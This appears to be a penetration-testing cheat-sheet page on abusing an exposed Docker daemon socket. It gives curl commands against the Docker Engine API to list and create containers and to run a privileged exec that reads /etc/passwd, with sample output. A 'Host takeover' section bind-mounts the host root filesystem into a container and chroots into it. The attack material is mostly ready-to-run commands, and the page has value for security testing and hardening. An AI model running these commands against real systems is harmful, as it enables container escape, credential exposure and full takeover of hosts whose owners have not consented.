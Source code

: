 The Docker daemon can listen for [Docker Engine API](https://docs.docker.com/engine/api/) requests via three different types of socket:
- `unix`
- `tcp`
- `fd`

By default, Docker runs through a non-networked UNIX socket, which is created at `/var/run/docker.sock` and requires either root permission or docker group membership.

{% hint style="info" %}
Additionally, pay attention to the runtime sockets of other high-level runtimes:
- dockershim: `unix:///var/run/dockershim.sock`
- containerd: `unix:///run/containerd/containerd.sock`
- cri-o: `unix:///var/run/crio/crio.sock`
- frakti: `unix:///var/run/frakti.sock`
- rktlet: `unix:///var/run/rktlet.sock`
- ...
{% endhint %}

A `tcp` socket is used to remotely access the Docker daemon, for which the default setup provides un-encrypted and un-authenticated direct access. It is conventional to use port **2375** for un-encrypted, and port **2376** for encrypted communication with the daemon.

On Systemd-based systems, communication with the Docker daemon can occur over the Systemd socket `fd://`.

Sometimes the Docker daemon can be accessed inside the container or over the network. It is often leads to commands execution on the host system and escape from the container.

# List of all containers

`curl` command to list all containers on the host over `unix` socket.

```bash
$ curl -s --unix-socket /var/run/docker.sock http:/containers/json
```

`curl` command to list all containers on the host over `tcp` socket.

```bash
$ curl -s http://<host>:<port>/containers/json
```

# Create a container

`curl` command to create container over `unix` socket.

```bash
$ export CONTAINER_NAME=test-container
$ curl \
    -s \
    --unix-socket /var/run/docker.sock \
    "http:/containers/create?name=${CONTAINER_NAME}" \
    -X POST \
    -H "Content-Type: application/json" \
    -d '{ "Image": "alpine:latest", "Cmd": [ "id" ] }'
```

`curl` command to create container over `tcp` socket.

```bash
$ export CONTAINER_NAME=test-container
$ curl \
    -s \
    "http://<host>:<port>/containers/create?name=${CONTAINER_NAME}" \
    -X POST \
    -H "Content-Type: application/json" \
    -d '{ "Image": "alpine:latest", "Cmd": [ "id" ] }'
```

# Start the container

```bash
$ export CONTAINER_NAME=test-container
$ curl \
    -s \
    "http://<host>:<port>/containers/${CONTAINER_NAME}/start" \
    -X POST \
    -H "Content-Type: application/json" 
```

# Code execution in a container

First you need to create an instance of `exec` that will run in the container.

```bash
$ curl \
    -s \
    "http://<host>:<port>/containers/<container_id>/exec" \
    -X POST \
    -H "Content-Type: application/json" \
    -d '{"AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Cmd": ["cat", "/etc/passwd"],"DetachKeys": "ctrl-p,ctrl-q","Privileged": true,"Tty": true}'

HTTP/1.1 201 Created
...

{"Id":"913c5ce2f3bc3e929166f2b402512a02c1669c03e515ef793513390ca1c3fdc3"}
```

Now that `exec` has been created, you need to run it.

```bash
$ export EXEC_ID=913c5ce2f3bc3e929166f2b402512a02c1669c03e515ef793513390ca1c3fdc3
$ curl \
    -s \
    "http://<host>:<port>/exec/${EXEC_ID}/start"
    -X POST \
    -H "Content-Type: application/json" \
    -d '{"Detach": false,"Tty": false}' \

HTTP/1.1 200 OK
...

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
```

# Host takeover

To execute commands on the host system, start the Docker container and mount the host root directory on the container volume.

1. Download ubuntu image.

    ```bash
    $ curl \
        -s \
        "http://<host>:<port>/images/create?fromImage=ubuntu&tag=latest" \
        -X POST \
        -H 'Content-Type: application/json'
    ```

2. Create a container.

    ```bash
    $ curl \
        -s \
        "http://<host>:<port>/containers/create"
        -X POST \
        -H "Content-Type: application/json" \
        -d '{"Hostname": "","Domainname": "","User": "","AttachStdin": true,"AttachStdout": true,"AttachStderr": true,"Tty": true,"OpenStdin": true,"StdinOnce": true,"Entrypoint": "/bin/bash","Image": "ubuntu","Volumes": {"/hostfs/": {}},"HostConfig": {"Binds": ["/:/hostfs"]}}'
    ```

3. Start the container.
4. In order to execute commands on the host system, change the root directory.

    ```bash
    $ chroot /hostfs
    ```

# References

- [Write up: Escaping the Cloud Shell container](https://offensi.com/2019/12/16/4-google-cloud-shell-bugs-explained-introduction/)
- [Quarkslab's Blog: Why is Exposing the Docker Socket a Really Bad Idea?](https://blog.quarkslab.com/why-is-exposing-the-docker-socket-a-really-bad-idea.html)
